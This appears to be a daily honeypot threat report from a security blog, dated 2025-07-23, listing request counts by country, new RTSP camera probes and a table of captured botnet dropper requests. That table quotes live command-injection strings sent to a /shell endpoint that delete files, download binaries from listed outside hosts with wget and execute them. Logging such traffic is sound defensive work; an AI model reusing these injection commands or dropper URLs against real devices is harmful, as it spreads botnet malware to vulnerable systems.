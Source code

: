 ```yaml
---
title: "Report: 2025-07-23 "
date: 2025-07-23
desciption: "Report: 2025-07-23" 
tags: [repport, daily]
---
```



# Daily Report: 2025-07-23 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 4 stage 1 IP address(es), linked to 2 dropper URL(s).  

There are 4 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 3297 requests were recorded during the day, originating from 4 different countries, with a peak of 2717 requests coming from GB.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Germany            |
| CA               | Dubai              |
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr   | request                                                                                                                                                                                        |
|:--------------|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 45.153.34.79  | GET /shell?cd+/tmp;rm+-rf+arm7;nohup+wget+http:/\x5C/45.153.34.32/x86;chmod+777+x86;./x86 jaws;cd+/tmp;rm+-rf+arm7;nohup+wget+http:/\x5C/45.153.34.32/arm7;chmod+777+arm7;./arm7 jaws HTTP/1.1 |
| 8.222.166.37  | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                           |
| 8.219.175.101 | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                           |
| 47.236.184.10 | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                           |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|    |   number_of_occurence | request                                                            |
|---:|----------------------:|:-------------------------------------------------------------------|
|  1 |                    30 | DESCRIBE rtsp://xxx.xxx.xxx.xxx:80/Streaming/Channels/101 RTSP/1.0 |
|  6 |                    10 | GET /Streaming/Channels/101 HTTP/1.1                               |
|  7 |                     9 | GET /Streaming/Channels/101 HTTP/1.0                               |
| 13 |                     5 | OPTIONS rtsp://xxx.xxx.xxx.xxx:80/Streaming/Channels/101 RTSP/1.0  |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                  2717 | GB                 |
|  1 |                   311 | US                 |
|  2 |                    61 | IN                 |
|  3 |                    28 | CA                 |
|  4 |                    21 | NL                 |
|  5 |                    18 | BG                 |
|  6 |                    18 | NG                 |
|  7 |                    17 | PL                 |
|  8 |                    15 | DE                 |
|  9 |                    13 | SC                 |
| 10 |                    13 | HK                 |
| 11 |                    11 | RO                 |
| 12 |                     7 | ZA                 |
| 13 |                     6 | SG                 |
| 14 |                     5 | FR                 |
| 15 |                     5 | IR                 |
| 16 |                     4 | JP                 |
| 17 |                     4 | MU                 |
| 18 |                     4 | PT                 |
| 19 |                     3 | KZ                 |
| 20 |                     2 | BE                 |
| 21 |                     2 | CN                 |
| 22 |                     2 | CH                 |
| 23 |                     2 | RU                 |
| 24 |                     2 | ID                 |
| 25 |                     1 | ES                 |
| 26 |                     1 | CR                 |
| 27 |                     1 | UA                 |
| 28 |                     1 | IT                 |
| 29 |                     1 | BR                 |
| 30 |                     1 | MC                 |
